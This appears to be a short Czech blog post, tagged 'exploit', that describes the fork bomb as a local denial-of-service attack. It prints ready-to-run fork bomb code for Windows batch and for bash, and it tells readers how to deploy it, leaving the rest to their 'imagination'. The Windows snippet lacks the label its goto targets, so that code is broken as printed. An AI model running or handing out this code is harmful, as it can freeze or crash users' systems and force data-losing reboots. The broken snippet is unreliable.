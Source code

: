 ```yaml
---
layout: post
title: Forkbomb
lang: cz
categories: exploit
---
```



Forkbomb je lokální DoS útok proti operačnímu systému. Je založený na nekonečné rekurzi forkovací funkce, která má za následek požírání systémových zdrojů, které lze vyřešit až následným rebootem systému.

<div class="warning">Upozornění: Autor tohoto zápisku není zodpovedný za škody vzniklé spouštěním následujících skriptů.</div>

##Implementace

###Windows
<pre class="prettyprint">
start
%0
goto :s
</pre>

###GNU/Linux
<pre class="prettyprint lang-bsh">
:(){ :|:& };:
</pre>

## Použití
Ve windows vytvoříme bat soubor, v linuxu lze spustit příkaz přímo z konzole, nebo vytvořit spustitelný soubor. Zbytek záleží na vaši fantasii.

## Odkazy
1. <http://www.cyberciti.biz/faq/understanding-bash-fork-bomb/>
2. <http://en.wikipedia.org/wiki/Fork_bomb>
